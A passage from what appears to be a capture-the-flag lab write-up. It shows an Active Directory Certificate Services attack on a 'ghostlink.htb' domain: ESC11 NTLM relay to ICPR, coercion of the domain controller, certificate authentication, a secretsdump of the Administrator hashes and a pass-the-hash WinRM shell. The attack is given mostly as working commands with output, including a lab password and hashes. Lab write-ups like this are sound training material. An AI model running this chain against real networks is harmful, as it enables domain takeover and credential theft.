Certificate Authorities
  0
    CA Name                             : ghostlink-GPZ-OP26-SECURE-CA
    DNS Name                            : gpz-op26-secure.ghostlink.htb
    Certificate Subject                 : CN=ghostlink-GPZ-OP26-SECURE-CA, DC=ghostlink, DC=htb
    Certificate Serial Number           : 3F4302F3D68A6AAE4B792DB93F31CCE5
    Certificate Validity Start          : 2026-03-03 16:52:14+00:00
    Certificate Validity End            : 2126-03-03 17:02:12+00:00
    Web Enrollment
      HTTP
        Enabled                         : True
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Disabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : GHOSTLINK.HTB\Administrators
      Access Rights
        ManageCa                        : GHOSTLINK.HTB\Administrators
                                          GHOSTLINK.HTB\Domain Admins
                                          GHOSTLINK.HTB\Enterprise Admins
        ManageCertificates              : GHOSTLINK.HTB\Administrators
                                          GHOSTLINK.HTB\Domain Admins
                                          GHOSTLINK.HTB\Enterprise Admins
        Enroll                          : GHOSTLINK.HTB\Authenticated Users
    [!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled over HTTP.
      ESC11                             : Encryption is not enforced for ICPR (RPC) requests.
Certificate Templates                   : [!] Could not find any certificate templates
```

Right away, we can see that we have `ESC11` as an attack opportunity. A comparison between [ESC8 and ESC11](https://www.hackingarticles.in/adcs-esc11-relaying-ntlm-to-icpr/) can be found here. To attack `ESC11`, we can perform the following:

```bash
$ sudo proxychains -q ntlmrelayx.py -t rpc://172.16.20.10 -rpc-mode ICPR -icpr-ca-name 'ghostlink-GPZ-OP26-SECURE-CA' -smb2support --template DomainController
Impacket v0.14.0.dev0+20260218.4234.d0296981 - Copyright Fortra, LLC and its affiliated companies 

[*] Protocol Client MSSQL loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client WINRMS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client SMB loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server on port 445
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server on port 9389
[*] Setting up RAW Server on port 6666
[*] Setting up WinRM (HTTP) Server on port 5985
[*] Setting up WinRMS (HTTPS) Server on port 5986
[*] Setting up RPC Server on port 135
[*] Setting up MSSQL Server on port 1433
[*] Setting up RDP Server on port 3389
[*] Multirelay disabled

[*] Servers started, waiting for connections
```

```bash
$ coercer coerce -l 10.10.14.2 -t dc01.ghostlink.htb -d ghostlink.htb -u nvirelli -p u47YUclrDiwWxBheaSzI --dc-ip dc01.ghostlink.htb --always-continue
```

And in our `ntlmrelayx` terminal, we can see the following output:
```bash
[*] Servers started, waiting for connections
[*] (RPC): Received connection from 10.129.244.158, attacking target rpc://172.16.20.10
[*] (RPC): Authenticating connection from GHOSTLINK/DC01$@10.129.244.158 against rpc://172.16.20.10 SUCCEED [1]
[*] rpc://GHOSTLINK/DC01$@172.16.20.10 [1] -> Generating CSR...
[*] rpc://GHOSTLINK/DC01$@172.16.20.10 [1] -> CSR generated!
[*] rpc://GHOSTLINK/DC01$@172.16.20.10 [1] -> Getting certificate...
[*] rpc://GHOSTLINK/DC01$@172.16.20.10 [1] -> Successfully requested certificate
[*] rpc://GHOSTLINK/DC01$@172.16.20.10 [1] -> Request ID is 5
[*] rpc://GHOSTLINK/DC01$@172.16.20.10 [1] -> Writing PKCS#12 certificate to ./DC01.pfx
[*] rpc://GHOSTLINK/DC01$@172.16.20.10 [1] -> Certificate successfully written to file
```

Finally, we'll use the saved `pfx` file to authenticate as the domain controller and then use `secretsdump` to grab all of the hashes from the domain, so we can authenticate to the DC via `WinRM`
```bash
$ certipy auth -pfx DC01.pfx -dc-ip dc01.ghostlink.htb -dns-tcp -ns 10.129.244.158 -timeout 10 -domain ghostlink.htb 
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN DNS Host Name: 'dc01.ghostlink.htb'
[*]     Security Extension SID: 'S-1-5-21-3426459382-1936297842-2312468024-1000'
[*] Using principal: 'dc01$@ghostlink.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'dc01.ccache'
[*] Wrote credential cache to 'dc01.ccache'
[*] Trying to retrieve NT hash for 'dc01$'
[*] Got hash for 'dc01$@ghostlink.htb': aad3b435b51404eeaad3b435b51404ee:f09e86e9b9c7e94f2fabaa9e31757e50
```

```bash
$ secretsdump.py ghostlink.htb/dc01\$@dc01.ghostlink.htb -dc-ip ghostlink.htb -hashes :f09e86e9b9c7e94f2fabaa9e31757e50 -just-dc-user administrator
Impacket v0.14.0.dev0+20260226.31512.9d3d86ea - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8190e067f478002ddd63eb209b016696:::
[*] Kerberos keys grabbed
Administrator:0x14:3291eeea0dfc6d311e1fc6f5ea0920b0cfee75d818a96b1fd5a70b3b6f28706d
Administrator:0x13:b82fd32fef344067a56681879e2d937e
Administrator:aes256-cts-hmac-sha1-96:b2e73d40a99d49f55a44a05a02fa898119d6f4de72c1eceb5d484c0679d92fd8
Administrator:aes128-cts-hmac-sha1-96:c3607a0efea3207eb5b1df36eb2dd256
Administrator:0x17:8190e067f478002ddd63eb209b016696
[*] Cleaning up... 
```

```bash
$ evil-winrm -i dc01.ghostlink.htb -u administrator -H 8190e067f478002ddd63eb209b016696

Evil-WinRM shell v3.7
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```


